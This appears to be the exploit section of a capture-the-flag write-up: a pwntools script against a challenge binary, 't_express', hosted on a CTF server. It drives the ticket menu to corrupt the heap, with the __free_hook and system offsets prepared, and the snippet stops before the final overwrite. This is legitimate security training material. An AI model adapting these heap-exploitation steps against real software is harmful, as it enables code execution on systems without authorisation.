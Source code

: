 <br>

---

## Full exploit

```python
# exploit_t_express.py

from pwn import *
# context.log_level = 'debug'

# r = process("./t_express")
r = remote("t-express.sstf.site", 1337)

def buy(choice, firstname, lastname):
    r.recvuntil("choice: ")
    r.sendline("1")

    r.recvuntil("(1/2): ")
    r.sendline(str(choice))

    r.recvuntil("First name: ")
    r.send(firstname)

    r.recvuntil("Last name: ")
    r.send(lastname)

def view(index):
    r.recvuntil("choice: ")
    r.sendline("2")

    r.recvuntil("Index of ticket: ")
    r.sendline(str(index))

def use_oneride(index):
    r.recvuntil("choice: ")
    r.sendline("3")

    r.recvuntil("Index of ticket: ")
    r.sendline(str(index))

def use_oneday(index, choice):
    r.recvuntil("choice: ")
    r.sendline("3")

    r.recvuntil("Index of ticket: ")
    r.sendline(str(index))

    r.recvuntil("(1/2/3/4): ")
    r.sendline(str(choice))

offset_freehook = 0x1eeb28
offset_system = 0x55410

buy(1, "AAAAAAAA", "BBBBBBBB") # index: 0
buy(2, "A", "B") # index: 1
buy(1, "A", "B") # index: 2

use_oneride(2)
use_oneday(1, 1)
use_oneday(1, 1)
use_oneday(1, 1)
use_oneday(1, 2)
```